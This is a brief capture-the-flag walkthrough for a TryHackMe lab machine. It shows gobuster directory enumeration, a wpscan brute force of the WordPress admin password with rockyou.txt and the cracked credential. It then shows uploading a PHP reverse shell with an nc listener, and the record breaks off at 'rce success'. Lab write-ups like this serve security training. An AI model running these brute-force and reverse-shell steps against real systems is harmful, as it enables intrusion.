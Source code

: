 directory enumeration:

```bash
gobuster dir --wordlist=/usr/share/dict/directory-list-2.3-medium.txt --url=http://10.10.104.32/ -t 100
```

Added internal.thm to /etc/hosts using vim

enumeration result:

```
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.104.32/wordpress/]
/blog                 (Status: 301) [Size: 311] [--> http://10.10.104.32/blog/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.104.32/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.104.32/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
```

checking /wordpress:

wappalyzer results: WordPress5.4.2

user found : admin

running wpscan:

```
wpscan --url http://internal.thm/blog/
```

![screenshot](/assets/img/thm/internal/2.png)

Found nothing useful.

bruteforcing wp using wpscan:

```bash
wpscan --url http://internal.thm/blog/ --passwords /usr/share/dict/rockyou.txt --usernames admin
```

looking at phpmyadmin page

we’ll proly not look later, we found a password for admin. :P

![screenshot](/assets/img/thm/internal/3.png)

```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

we can succesfully login through wp-login. :)

Uploading php-reverse-shell:

```bash
nc -lvnp 1234
```

rce success :
